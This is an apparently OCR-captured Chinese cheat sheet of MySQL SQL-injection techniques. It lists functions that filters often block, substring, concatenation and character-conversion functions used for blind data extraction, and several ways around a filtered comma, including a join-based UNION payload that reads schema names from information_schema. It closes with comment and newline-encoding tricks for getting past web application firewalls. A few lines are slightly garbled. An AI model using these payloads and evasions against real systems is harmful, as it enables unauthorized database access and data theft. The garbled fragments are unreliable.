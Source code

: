 ##### 常见过滤的函数&关键字

union distinct  
union distinctrow  
procedure analyse()  
updatexml()  
extracavalue()  
exp()  
ceil()  
atan()  
sqrt()  
floor()  
ceiling()  
tan()  
rand()  
sign()  
greatest()  
 **字符串截取函数**  
Mid(version(),1,1)  
Substr(version(),1,1)  
Substring(version(),1,1)  
Lpad(version(),1,1)  
Rpad(version(),1,1)  
Left(version(),1)  
reverse(right(reverse(version()),1)  
 **字符串连接函数**  
concat(version(),'|',user());  
concat_ws('|',1,2,3)  
 **字符转换**  
Char(49)  
Hex('a')  
Unhex(61)  
 **过滤了逗号**  
(1)limit处的逗号：  
`limit 1 offset 0`  
(2)字符串截取处的逗号  
mid处的逗号：  
mid(version() from 1 for 1)  
(3)union处的逗号：  
通过join拼接

    
    
    select * from corp where corp_id=8e0union select * from (select 1)a join (select{x schema_name} from information_schema.schemata limit 1)b;

##### mysqlTricks

    
    
    特殊符号：%a 换行符  
       可结合注释符使用%23%0a，%2d%2d%0a。  
      
    内联注释：  
       /*!UnIon12345SelEcT*/ 1,user()   //数字范围 1000-50540  
      